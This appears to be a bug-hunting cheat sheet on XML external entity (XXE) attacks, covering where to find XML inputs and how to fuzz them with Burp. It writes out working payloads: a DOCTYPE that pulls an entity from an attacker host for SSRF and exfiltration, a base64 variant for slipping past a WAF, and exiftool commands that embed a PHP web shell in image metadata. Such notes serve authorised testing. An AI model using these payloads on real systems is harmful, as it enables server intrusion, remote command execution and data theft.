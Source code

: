 ## where to find xxe?

- xml post data

- convert json POST data to xml with the help of `CONTENT-TYPE CONVETER burp-extension`
`important note:
send the requets first with json default then send again in xml
if the response gets the same means server is sucessfully parsing the xml input
now exploit it with the XXE payloads
`
- any input that accepts xml data

> xxe to ssrf :

<!DOCTYPE foo [<!ENTITY % init SYSTEM "http://attacker.com"> %init;]>

> xxe base64 encoded when a WAF detects the above payload

<!DOCTYPE foo [<!ENTITY % init SYSTEM "data://text/plain;base64,[base64 url]">%init;]>

# how to exfiltrate data

![data-exfil](./1.png)

---

# important case :
![data-exfil](./2.png)


# how to inject xml or any kind of payload in image headers with the help of exiftool!

>payload 1: exiftool -comment='<?php passthru(\$_GET'cmd'); _halt_compiler(); ?>' flower.jpg

We can also set payload in the “Document Name” meta field. To do this, run this command:
>payload 2: exiftool -documentname='<?php passthru(\$_GET'cmd'); _halt_compiler(); ?>' flower.jpg

inserting payload in image matadata:
![data-exfil](./3.png)

also : use this tools for creating mal image: https://github.com/chinarulezzz/pixload



### the most important part for bug hunting : [you need to make effort for making a xxe payload list]
>https://twitter.com/Alra3ees/status/1213287810440081408?s=20&t=9Y6_hiiNwl9iK5HZeQZpeg

make a wordlist of xxe payloads and replace it with burp collab and then send the main
request to the burp intruder then if any payload works you'll definetly get
a hit on the collab server.


> inject payload with the help of ghex tool and see if the image isn't corupted then we're good to go!
